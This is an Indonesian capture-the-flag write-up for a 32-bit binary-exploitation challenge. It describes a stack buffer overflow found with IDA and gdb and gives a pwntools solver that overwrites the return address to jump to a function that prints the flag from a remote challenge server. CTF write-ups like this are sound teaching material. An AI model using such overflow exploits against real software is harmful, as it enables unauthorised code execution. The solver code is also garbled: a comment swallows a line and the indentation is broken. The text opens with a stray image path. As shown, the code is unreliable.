 Tidak banyak deskripsi hanya terdapat attachment file 32 bit-executable dibuktikan dengan :

![](images.png)

![](images2.png)

Dari kedua pengecekan diatas ternyata 32 bit, not-striped, no-pie, no-canary, seharusnya challange pwn yang tidak begitu sulit. Dilanjutkan dengan analisis statis menggunakan Ida-pro dan begini hasilnya.
![](images3.png)

Misi kita hanyalah melakukan buffer overflow dan bisa jump ke fungsi 'recovery mode'. ya tinggal melakukan dynamic analisis dengan gdb dan filler buffer pada fgets pertama berapa, ternyata buffer yang dibutuhkan 40 char dan 4 char setelahnya akan digunakakn untuk melakukan jump ke memory dari recovery mode dan 'cat flag.txt'. Kita perlu mengambil address memory di recovery mode dan membaliknya karena ini merupakan 32-bit LSB, dengan mudah dibantu pwntools. Berikut solver yang saya gunakan.


    from pwn import *
    elf = ELF('./kanagawa')
    #r = process(elf.path)
    s = remote('challs.dvc.tf',8888)

    def exploit(): # s.recvuntil('Email: ') # Fill the buffer
    payload = 'a' * 40 + p32(0x0804851b)

        s.sendline(payload)
        s.interactive()

    exploit()


flag = dvCTF{0v3rfl0w_tsun4m1}
